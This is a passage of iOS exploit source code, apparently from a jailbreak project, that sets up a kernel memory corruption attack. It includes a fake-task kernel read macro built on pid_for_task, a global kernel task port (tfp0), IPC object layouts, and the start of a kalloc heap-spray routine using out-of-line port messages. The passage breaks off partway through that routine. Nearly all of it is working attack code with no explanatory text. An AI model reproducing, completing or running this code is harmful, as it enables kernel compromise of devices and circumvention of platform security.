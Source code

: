 ```
#import <mach-o/loader.h>
#import <sys/mman.h>
#import <pthread.h>
#undef __IPHONE_OS_VERSION_MIN_REQUIRED
#import <mach/mach.h>
#include <sys/utsname.h>
#include <assert.h>
#include <iostream>
#include <unistd.h>
#include <sys/types.h>
#include <sys/sysctl.h>
#include <mach/mach.h>

#define kIOMasterPortDefault MACH_PORT_NULL
#define IO_OBJECT_NULL MACH_PORT_NULL
#define MACH_VOUCHER_ATTR_ATM_CREATE ((mach_voucher_attr_recipe_command_t)510)
#define IO_BITS_ACTIVE 0x80000000
#define IKOT_TASK 2
#define IKOT_IOKIT_CONNECT 29
#define IKOT_CLOCK 25

#define kr32(address, value)\
*(uint64_t*) (faketask + 0x380) = address - 0x10;\
pid_for_task(foundport, value);

typedef struct {
    mach_msg_header_t head;
    mach_msg_body_t msgh_body;
    mach_msg_ool_ports_descriptor_t desc[1];
    char pad[4096];
} sprz;

struct ipc_object {
    natural_t io_bits;
    natural_t io_references;
    char    io_lock_data[0x100];
};

struct ool_msg  {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
    mach_msg_ool_ports_descriptor_t ool_ports;
};

mach_port_t mport = 0;
mach_port_t tfp0 = 0;


static mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    // allocate a port to send the message to
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf(" [-] failed to allocate port\n");
        exit(EXIT_FAILURE);
    }
    
    mach_port_t* ports = (mach_port_t*)malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
```